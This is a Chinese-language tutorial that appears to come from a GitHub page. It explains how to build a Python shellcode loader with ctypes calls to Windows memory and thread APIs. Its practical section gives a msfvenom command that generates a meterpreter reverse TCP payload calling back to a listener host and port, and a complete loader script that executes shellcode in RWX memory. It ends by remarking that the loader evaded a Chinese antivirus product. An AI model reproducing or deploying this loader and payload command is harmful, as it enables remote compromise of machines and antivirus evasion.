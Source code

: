 @Author：Y4tacker

# python-shellcode加载器

主要是利用ctypes库来调用windows的api来完成加载shellcode的操作

## 流程

将shellcode加载进内存并执行

## 函数介绍

### VirtualAlloc

申请内存调用VirtualAlloc函数，来申请一块动态内存区域。VirtualAlloc函数原型和参数如下：

```c++
LPVOID VirtualAlloc{
LPVOID lpAddress, #要分配的内存区域的地址
DWORD dwSize,      #分配的大小
DWORD flAllocationType, #分配的类型
DWORD flProtect     #该内存的初始保护属性
};
```

python

```
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
ctypes.c_int(len(shellcode)), 
ctypes.c_int(0x3000),                                       
ctypes.c_int(0x40))
```

| ctypes.c_int(0)              | 是NULL，系统将会决定分配内存区域的位置，并且按64KB向上取整   |
| ---------------------------- | ------------------------------------------------------------ |
| ctypes.c_int(len(shellcode)) | 以字节为单位分配或者保留多大区域                             |
| ctypes.c_int(0x3000)         | 是 MEM_COMMIT(0x1000) 和 MEM_RESERVE(0x2000)类型的合并       |
| ctypes.c_int(0x40)           | 是权限为PAGE_EXECUTE_READWRITE 该区域可以执行代码，应用程序可以读写该区域。 |

### RtlMoveMemory

 调用RtlMoveMemory函数可以将shellcode载入内存，此函数从指定内存中复制内容至另一内存里。RtlMoveMemory函数原型和参数如下

```
RtlMoveMemory(Destination,Source,Length);
Destination ：指向移动目的地址的指针。
Source ：指向要复制的内存地址的指针。
Length ：指定要复制的字节数。
```

在python中

```python
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),buf, ctypes.c_int(len(shellcode)))
```

### CreateThread

 创建进程调用CreateThread将在主线程的基础上创建一个新线程CreateThread函数原型和参数如下：

```
HANDLE CreateThread(
LPSECURITY_ATTRIBUTES lpThreadAttributes,#线程安全属性
SIZE_T dwStackSize,       #置初始栈的大小，以字节为单位
LPTHREAD_START_ROUTINE lpStartAddress,  #指向线程函数的指针
LPVOID lpParameter,          #向线程函数传递的参数
DWORD dwCreationFlags,       #线程创建属性
LPDWORD lpThreadId           #保存新线程的id
)
```

在python

```python
handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_uint64(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0))
```

| lpThreadAttributes | 为NULL使用默认安全性                                         |
| ------------------ | ------------------------------------------------------------ |
| dwStackSize        | 为0，默认将使用与调用该函数的线程相同的栈空间大小            |
| lpStartAddress     | 为ctypes.c_uint64(ptr)，定位到申请的内存所在的位置           |
| lpParameter        | 不需传递参数时为NULL                                         |
| dwCreationFlags    | 属性为0，表示创建后立即激活                                  |
| lpThreadId         | 为ctypes.pointer(ctypes.c_int(0))不想返回线程ID,设置值为NULL |

### WaitForSingleObject

 等待线程结束调用WaitForSingleObject函数用来检测线程的状态WaitForSingleObject函数原型和参数

```c++
DWORD WINAPI WaitForSingleObject(
__in HANDLE hHandle,     #对象句柄。可以指定一系列的对象
__in DWORD dwMilliseconds  #定时时间间隔
);
```

在python里

```python
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))
```

正常的话我们创建的线程是需要一直运行的，所以将时间设为负数，等待时间将成为无限等待，程序就不会结束

## 实战

首先用msf生成shellcode

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.5.113 lport=6666 -f py > 1.txt
```

之后

```

import ctypes

VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
RtlMoveMemory = ctypes.windll.kernel32.RtlMoveMemory
CreateThread = ctypes.windll.kernel32.CreateThread
WaitForSingleObject = ctypes.windll.kernel32.WaitForSingleObject

#shellcode可以用msf来生成
buf = b""

shellcode = bytearray(buf)
VirtualAlloc.restype = ctypes.c_void_p  # 重载函数返回类型为void
p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), 0x3000, 0x00000040)  # 申请内存
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)  # 将shellcode指向指针
RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(shellcode)))  # 复制shellcode进申请的内存中
h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))  # 执行创建线程
WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1))  # 检测线程创建事件
```

至于如何免杀，还没详细体验过，反正这个弹出计算器的过了火绒